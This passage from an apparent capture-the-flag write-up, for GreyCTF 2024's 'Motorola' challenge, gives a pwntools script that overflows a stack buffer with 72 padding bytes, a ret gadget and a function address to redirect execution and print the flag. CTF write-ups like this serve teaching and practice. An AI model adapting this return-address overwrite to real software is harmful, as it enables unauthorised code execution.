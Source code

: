<img src = "/assets/greyctf24/view_message_ghidra.png" alt="Disassembly of view_message" style="width: 500px; height: 300px">

The corrected exploit code is as follows:

```python
from pwn import *

# io = remote('challs.nusgreyhats.org',30211)
io = process('./chall')
view_message = p64(0x0040138e)
view_message2 = p64(0x00401393)
ret = p64(0x000000000040101a)

for i in range(4):
    info(io.recvuntil(b'PIN: '))
    io.sendline(b'a')

info(io.recvuntil(b'PIN: '))
pause()
payload = 72 * b'a' + ret + view_message
# OR payload = 72 * b'a' + view_message2
io.sendline(payload)
io.interactive()
data = io.recvuntil(b'}')
print(data)
io.close()
```

Which gets us the flag:

<img src = "/assets/greyctf24/motorola_flag.png" alt="Motorola flag" style="width: 600px; height: 150px">
